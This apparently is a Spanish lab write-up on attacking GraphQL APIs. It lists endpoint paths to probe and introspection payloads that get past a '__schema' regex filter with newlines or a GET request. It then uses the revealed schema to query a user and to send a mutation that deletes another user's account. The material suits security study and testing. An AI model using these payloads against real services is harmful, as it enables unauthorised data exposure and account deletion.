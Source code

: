 
Si la instrospección está habilitada : https://github.com/APIs-guru/graphql-voyager

Buscamos el endpoint usando GET y POST

/graphql
/graphiql
/graphql.php
/graphql/console
/api
/api/graphql
/graphql/api
/graphql/graphql

y poniendo /v1 y usando application/json

Usando una query universal : `query{__typename}`

Si le enviamos una Introspection query :

```json
{
  "errors": [
    {
      "locations": [],
      "message": "GraphQL introspection is not allowed, but the query contained __schema or __type"
    }
  ]
}
```

Ahora vamos a bypassear la defensa contra instrospección:

## Bypassing GraphQL introspection defenses

If you cannot get introspection queries to run for the API you are testing, try inserting a special character after the `__schema` keyword.

When developers disable introspection, they could use a regex to exclude the `__schema` keyword in queries. You should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex.

As such, if the developer has only excluded `__schema{`, then the below introspection query would not be excluded.

```json

    #Introspection query with newline

    {
        "query": "query{__schema
        {queryType{name}}}"
    }

```

If this doesn't work, try running the probe over an alternative request method, as introspection may only be disabled over POST. Try a GET request, or a POST request with a content-type of `x-www-form-urlencoded`.

The example below shows an introspection probe sent via GET, with URL-encoded parameters.

```
 # Introspection probe as GET request
    GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

Solución : 
Si lo enviamos así nos da error

```json
{
    "query": "query { __schema { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description locations args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"
}
```

Si lo enviamos así (salto de línea y retorno de carro después de __schema) : 

``` json
{
    "query": "query { __schema\r\n
     { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description locations args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"
}
```

Funciona

Enviando

```json
{
    "query": "query { getUser(id: 1) { id username  } }"
}
```

```json
{
  "data": {
    "getUser": {
      "id": 1,
      "username": "administrator"
    }
  }
}
```

==Para eliminar al usuario con Id=3==

Dado que el tipo de respuesta `DeleteOrganizationUserResponse` tiene un campo llamado `user` que es de tipo `User`, puedes solicitar información adicional sobre el usuario eliminado al hacer la mutación `deleteOrganizationUser`. Aquí tienes un ejemplo de cómo realizar la mutación para eliminar un usuario y obtener información sobre el usuario eliminado en la respuesta.

### Ejemplo de mutación `deleteOrganizationUser`

```json
{
    "query": "mutation { deleteOrganizationUser(input: { id : 3 }) { user { id username } } }"
}
```

### Explicación

- **deleteOrganizationUser**: Es el nombre de la mutación que elimina al usuario.
- **input**: Es el argumento que necesita la mutación, y debe seguir la estructura de `DeleteOrganizationUserInput`. ==(indicar un id)==
  - **id**: El identificador del usuario que deseas eliminar. Sustituye `123` por el ID real del usuario.
- **user**: Este campo en la respuesta representa el usuario que fue eliminado ==(debe seguir la estructura de DeleteOrganizationUserResponse)==
  - **id, username Campos de información del usuario eliminado que solicitamos como ejemplo. Puedes cambiar o agregar otros campos según lo permita el tipo `User` en tu esquema.

Este formato te dará información sobre el usuario que se eliminó, como el `id`, `username`, si estos están disponibles en el tipo `User`. 